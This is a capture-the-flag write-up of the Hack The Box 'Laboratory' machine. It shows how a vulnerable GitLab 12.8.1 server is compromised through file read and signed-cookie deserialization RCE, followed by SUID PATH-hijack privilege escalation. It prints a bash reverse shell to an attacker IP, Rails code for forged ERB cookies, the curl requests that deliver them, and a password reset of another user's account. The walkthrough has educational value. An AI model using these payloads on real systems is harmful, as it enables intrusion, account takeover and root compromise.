

# Laboratory (Linux)

## Enumeration

```
rustscan --ulimit 5000 10.129.83.28 -- -sC -sV -o port_scans

PORT    STATE SERVICE  REASON  VERSION
22/tcp  open  ssh      syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http     syn-ack Apache httpd 2.4.41
443/tcp open  ssl/http syn-ack Apache httpd 2.4.41 ((Ubuntu))
Service Info: Host: laboratory.htb; OS: Linux; CPE: cpe:/o:linux:linux_kerne
```

### Examine Port 80 - Apache server



On the website itself, we can't find anything interesting. No functionalities, no links. Everything is just pure plaintext. So let's see if we can find some directories.

```
└──╼ $ gobuster dir -u "https://laboratory.htb" -w /usr/share/wordlists/dirb/big.txt -x php,html -k
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            https://laboratory.htb
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,html
[+] Timeout:        10s
===============================================================
2021/01/21 15:59:09 Starting gobuster
===============================================================
/.htaccess (Status: 403)
/.htaccess.php (Status: 403)
/.htaccess.html (Status: 403)
/.htpasswd (Status: 403)
/.htpasswd.php (Status: 403)
/.htpasswd.html (Status: 403)
/assets (Status: 301)
/images (Status: 301)
/index.html (Status: 200)
/server-status (Status: 403)
===============================================================
2021/01/21 16:03:32 Finished
===============================================================
```

However, gobuster only discovers the typical standard directories. After investigating them, I still have no idea where to go from here. So I ran the nmap scan again. This time with basic scripts activated.

Additionally to the previous output we also get more information about the domain.

```
| ssl-cert: Subject: commonName=laboratory.htb                    
| Subject Alternative Name: DNS:git.laboratory.htb                
| Issuer: commonName=laboratory.htb 
```

So apparently, there is also a subdomain called `git.laboratory.htb`. Let's add it to the hosts file and check it out.


### Examine Port 443 - Subdomain



Looking at the subdomain, we can see a GitLab server login page. As we don't have any credentials, the only possible way is to create an account.

After creating an account (with a laboratory.htb email address), we have access to GitLab.


Browsing through the available projects, we quickly find the "SecureWebsite" Project.



However, the project does not give any valuable information. Atleast nothing that we do not already know. What about software issues in the server itself? Let's find out what version the server is.

A quick check in google reveals that we can get the server version by navigating to `https://your.domain.name/help`
so `https://git.laboratory.htb/help` in our case.



Server version 12.8.1. Now let's see if this specific version has any security flaws. And indeed! Searching for this version results in hundreds of hits for "File Read Remote Code Execution".

*This module provides remote code execution against GitLab Community Edition (CE) and Enterprise Edition (EE). It combines an arbitrary file read to extract the Rails "secret_key_base", and gains remote code execution with a deserialization vulnerability of a signed 'experimentation_subject_id' cookie that GitLab uses internally for A/B testing. Note that the arbitrary file read exists in GitLab EE/CE 8.5 and later, and was fixed in 12.9.1, 12.8.8, and 12.7.8. However, the RCE only affects versions 12.4.0 and above when the vulnerable `experimentation_subject_id` cookie was introduced. Tested on GitLab 12.8.1 and 12.4.0. (https://www.rapid7.com/db/modules/exploit/multi/http/gitlab_file_read_rce/)*

A detailed article about the vulnerability can be found [here](https://hackerone.com/reports/827052).

## Gaining an Initial Foothold

We can simply follow the instructions of the CVE report.

It says that LFI is possible when including the file in an issue in one project and then move the issue to another project. The specified file will then be included, as the LFI prevention apparently does not happen when moving issues.

So let's try if it works: we include /etc/passwd and create the issue in Project 1.



Now we move the issue to Project 2.



And indeed! We get access to the file! Amazing!





In order to get RCE from the LFI, we first have to leak the `secrets.yml` file of the gitlab server. To do that we simply repeat the LFI steps as shown above with a different file included:

```

```

Perfect! Now that we have the secrets file, we can setup our gitlab locally (this is not necessarily needed, but helps for the next steps):

So I installed gitlab locally by following these steps:
1) Download gitlab
https://packages.gitlab.com/gitlab/gitlab-ce/packages/debian/stretch/gitlab-ce_12.8.10-ce.0_amd64.deb
2) sudo dpkg -i download.deb
3) sudo gitlab-ctl reconfigure

Afterwards, I replaced the secret key of my local secret.yml file with the one from the leaked file.

Now we create a reverse shell script that should be uploaded to the gitlab server (don't forget to change the IP and the port):

Reverse shell:
```
└──╼ $ cat rev_shell.sh 
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.26/4444 0>&1
```

Afterwards, start a local HTTP server.
```
sudo python3 -m http.server 8888
```

The next step is to open the `gitlab-rails console` and execute following code. It will create a cookie that we can then inject as the `experimentation_subject_id`:
```
request = ActionDispatch::Request.new(Rails.application.env_config)
request.env["action_dispatch.cookies_serializer"] = :marshal
cookies = request.cookie_jar

erb = ERB.new("<%= `curl 10.10.14.26:8888/rev_shell.sh -o /tmp/rev_shell.sh` %>")
depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result, "@result", ActiveSupport::Deprecation.new)
cookies.signed[:cookie] = depr
puts cookies[:cookie]
```

Copy the output cookie and execute following to upload the reverse shell to the gitlab server:

```
curl -vvv 'https://git.laboratory.htb/users/sign_in' -b
"experimentation_subject_id=BAhvOkBBY3RpdmVTdXBwb3J0OjpEZXByZWNhdGlvbjo6RGVwcmVjYXRlZEluc3RhbmNlVmFyaWFibGVQcm94eQk6DkBpbnN0YW5jZW86CEVSQgs6EEBzYWZlX2xldmVsMDoJQHNyY0kiYiNjb2Rpbmc6VVRGLTgKX2VyYm91dCA9ICsnJzsgX2VyYm91dC48PCgoIGBlY2hvIHZha3p6IHdhcyBoZXJlID4gL3RtcC92YWt6emAgKS50b19zKTsgX2VyYm91dAY6BkVGOg5AZW5jb2RpbmdJdToNRW5jb2RpbmcKVVRGLTgGOwpGOhNAZnJvemVuX3N0cmluZzA6DkBmaWxlbmFtZTA6DEBsaW5lbm9pADoMQG1ldGhvZDoLcmVzdWx0OglAdmFySSIMQHJlc3VsdAY7ClQ6EEBkZXByZWNhdG9ySXU6H0FjdGl2ZVN1cHBvcnQ6OkRlcHJlY2F0aW9uAAY7ClQ=--256736af5cceb9bd73bbf17bfa3bf64985ac5767" -k
```

Afterwards craft another cookie, which contains the command to execute the script.

```
request = ActionDispatch::Request.new(Rails.application.env_config)
request.env["action_dispatch.cookies_serializer"] = :marshal
cookies = request.cookie_jar

erb = ERB.new("<%= `bash /tmp/rev_shell.sh` %>")
depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb,:result, "@result", ActiveSupport::Deprecation.new)
cookies.signed[:cookie] = depr
puts cookies[:cookie]
```

Now set up a nc listener, copy the cookie and do the request:

```
curl -vvv 'https://git.laboratory.htb/users/sign_in' -b "experimentation_subject_id=BAhvOkBBY3RpdmVTdXBwb3J0OjpEZXByZWNhdGlvbjo6RGVwcmVjYXRlZEluc3RhbmNlVmFyaWFibGVQcm94eQk6DkBpbnN0YW5jZW86CEVSQgs6EEBzYWZlX2xldmVsMDoJQHNyY0kiWCNjb2Rpbmc6VVRGLTgKX2VyYm91dCA9ICsnJzsgX2VyYm91dC48PCgoIGBiYXNoIC90bXAvcmV2X3NoZWxsLnNoYCApLnRvX3MpOyBfZXJib3V0BjoGRUY6DkBlbmNvZGluZ0l1Og1FbmNvZGluZwpVVEYtOAY7CkY6E0Bmcm96ZW5fc3RyaW5nMDoOQGZpbGVuYW1lMDoMQGxpbmVub2kAOgxAbWV0aG9kOgtyZXN1bHQ6CUB2YXJJIgxAcmVzdWx0BjsKVDoQQGRlcHJlY2F0b3JJdTofQWN0aXZlU3VwcG9ydDo6RGVwcmVjYXRpb24ABjsKVA==--874f307ee34f95c27d0a9e79ba1900960d8d02e1" -k
```

This will execute the reverse shell and you have access to the server!

```
git@git:~/gitlab-rails/working$ hostname && id
git.laboratory.htb
uid=998(git) gid=998(git) groups=998(git)
```

After some minutes of exploring the server, I realized that the git server has nothing interesting hidden. At least no flags that we can submit to HTB. So now, we somehow have gain access to the real server instead of just having access to the git server.

In the official [GitLab Docs](https://docs.gitlab.com/ee/administration/troubleshooting/navigating_gitlab_via_rails_console.html), they explain how to use the gitlab-rails console to find users, change passwords and save the changes to the live server. We can use this to find existing users on the Gitlab server and then gain access to their accounts. Maybe they have some valuable information on their profiles. Let's follow the instructions of the docs.

```
irb(main):001:0> user = User.find(1)
user = User.find(1)
=> #<User id:1 @dexter>

irb(main):002:0> user.password = 'password'
user.password = 'password'
=> "password"

irb(main):003:0> user.save
user.save
Enqueued ActionMailer::DeliveryJob (Job ID: 45e0541c-9976-41d5-a6da-02db29294bc7) to Sidekiq(mailers) with arguments: "DeviseMailer", "password_change", "deliver_now", #<GlobalID:0x00007f2346858520 @uri=#<URI::GID gid://gitlab/User/1>>
=> true
```

Now going back to `git.laboratory.htb`, we can login as `dexter` with the password `password`



Going through his private respositories, we can find his private ssh key:



Using this, we can successfully login to his account on `laboratory.htb`.

```
dexter@laboratory:~$ hostname && id
laboratory
uid=1000(dexter) gid=1000(dexter) groups=1000(dexter)
```

## Privilege Escalation

We start by using the standard priv-esc techniques such as finding binaries with the SUID bit set.

```
find / -perm -4000 -type f 2>/dev/null

/usr/local/bin/docker-security
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/su
```

The binary `/usr/local/bin/docker-security` seems to be suspicious as it is usually not part of this list. So let's check it out.

```
-rwsr-xr-x 1 root dexter 16720 Aug 28 14:52 /usr/local/bin/docker-security
```

So our current user has permissions to execute it! Great. Let's do it and see what happens.... Nothing... hmm. Then we have to figure out what it does. But instead of reverse engineering it locally with some disassembler, we can start by running things like `ltrace` and `strace` to get a first idea of what is going on.

```
dexter@laboratory:/usr/local/bin$ ltrace docker-security 
setuid(0)                                                                                                          = -1
setgid(0)                                                                                                          = -1
system("chmod 700 /usr/bin/docker"chmod: changing permissions of '/usr/bin/docker': Operation not permitted
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                             = 256
system("chmod 660 /var/run/docker.sock"chmod: changing permissions of '/var/run/docker.sock': Operation not permitted
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                             = 256
+++ exited (status 0) +++
```

Apparently, the binary uses `chmod`. The issue with this is, that it does not use the absolute path. So we can create our own `chmod` and inject it into the path:

```
dexter@laboratory:/tmp$ echo "/bin/bash" > chmod
dexter@laboratory:/tmp$ chmod +x chmod 
dexter@laboratory:/tmp$ export PATH=.:${PATH}
```

Now when we run the binary, the `chmod` call will be replaced by our chmod file, which contains /bin/sh. Let's run it!

```
dexter@laboratory:/tmp$ /usr/local/bin/docker-security 
root@laboratory:/tmp# hostname && id
laboratory
uid=0(root) gid=0(root) groups=0(root),1000(dexter)
```

Perfect! We pwned the machine!
